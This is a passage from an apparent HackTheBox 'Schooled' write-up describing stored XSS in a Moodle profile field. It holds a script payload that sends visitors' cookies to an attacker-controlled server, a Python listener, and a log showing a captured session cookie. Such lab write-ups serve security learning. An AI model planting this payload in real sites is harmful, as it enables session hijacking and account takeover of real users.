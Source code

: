 ![editprofile.JPG](images/editprofile.JPG)

We can inject our ```XSS``` payload on ```MoodleNet Profile``` field, To steal the cookies our payload should be like that:
```javascript
<script>new Image().src="http://10.10.14.14:8000/"+document.cookie;</script>
``` 

We need to create a webserver to listen to the web requests from the teacher:
```console
┌─[evyatar@parrot]─[/hackthebox/Schooled]
└──╼ $ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

By clicking on ```Update Profile``` button we get our web requests with cookies:
```console
┌─[evyatar@parrot]─[/hackthebox/Schooled]
└──╼ $ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.14.14 - - [09/Apr/2021 02:39:18] "GET /MoodleSession=34dpp503jcoics05uu27tdoi9p HTTP/1.1" 404 -
```

Great, Now, Let's enroll to ```Math course``` to make the teacher look at our profile:
![enroll.JPG](images/enroll.JPG)
